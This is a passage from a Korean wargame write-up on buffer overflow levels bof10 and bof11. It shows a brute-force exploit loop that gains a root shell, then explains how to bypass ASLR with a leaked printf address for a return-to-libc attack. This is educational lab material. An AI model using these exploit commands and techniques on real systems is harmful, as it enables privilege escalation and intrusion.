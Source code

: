 ```shell
while : ; do ; ./bof10 `python -c "print 'a'*20 + '\x36\x4c\xc6\xff'"` ; done
```

그러면 얼마간의 시간이 지난 후에 다음과 같이 1.5% 의 확률로 루트 쉘을 탈취할 수 있다. 

```shell
Hello aaaaaaaaaaaaaaaaaaaa6L�[0xffa601e8]!
(env:SHELLCODE -> 0xffa60c37)
Segmentation fault (core dumped)
Hello aaaaaaaaaaaaaaaaaaaa6L�[0xff9af138]!
(env:SHELLCODE -> 0xff9b0c37)
Segmentation fault (core dumped)
Hello aaaaaaaaaaaaaaaaaaaa6L�[0xffc633c8]!
(env:SHELLCODE -> 0xffc64c37)
# id
uid=0(root) gid=1011(bof10) groups=1011(bof10)
#
```

### bof11 (Memory leak)

bof10 과는 달리 bof11 에서는 bof9 처럼 스택에 실행권한이 존재하지 않는다. 그래서 `NOP` 코드를 13만 바이트나 넣어서 브루트 포싱하는 방법은 더 이상 통하지 않는다. 스택에 실행권한도 없고 ASLR 도 활성화되어 있어서 RTL 기법도 어려울 것 같다. 하지만 메모리의 데이터를 유출시킬 수 있다는 조건이 있을 때 ASLR 이 활성화되어있어도 RTL 을 적용할 수 있다.

실제로 블루투스 취약점 **blueborne** 의 힙 오버플로우 취약점 **CVE-2017-0781** 은 쉘을 탈취할 수 있는 RCE 취약점인데, 이 취약점을 익스플로잇 하기 위해서 ASLR 을 우회하기 위하여 **CVE-2017-0785** 취약점을 사용하여 메모리 데이터를 유출시켰다. 

그래서 bof11 은 메모리 유출 취약점이 존재해서 `printf` 함수의 주소값을 유출 시킨다는 설정이다. 다음과 같이 bof11 은 `printf` 함수의 주소값을 계속 유출 시키고 있고 ASLR 때문에 그 주소값이 계속 달라진다. 

```shell
$ ./bof11
printf() address : 0x7f26ea000800
abc
Hello abc!
$ ./bof11
printf() address : 0x7f753d893800
abc
Hello abc!
$ ./bof11
printf() address : 0x7fb4c41f8800
abc
Hello abc!
```

bof9 처럼 bof11 에서는 `system` 주소, `/bin/sh` 주소, `pop rdi ; ret` 주소가 필요하다. ASLR 때문에 각각의 주소값을 정확하게 알 수는 없으나 `printf` 함수의 주소값이 항상 유출된다는 조건이 있기 때문에 각각의 주소값과 `printf` 주소값과의 상대적 거리만 계산하면 ASLR 을 우회할 수 있다. 

왜냐하면 `libc` 라이브러리 내부 함수끼리의 상대적 거리는 항상 똑같기 때문이다. 

#### printf 와 system 함수와의 거리 

bof11 이 printf 의 주소값을 계속 유출 시키는데 printf 함수와 system 함수의 상대적 거리는 항상 동일하다. 

`(printf 의 주소값) + X = (system 함수의 주소값)` 

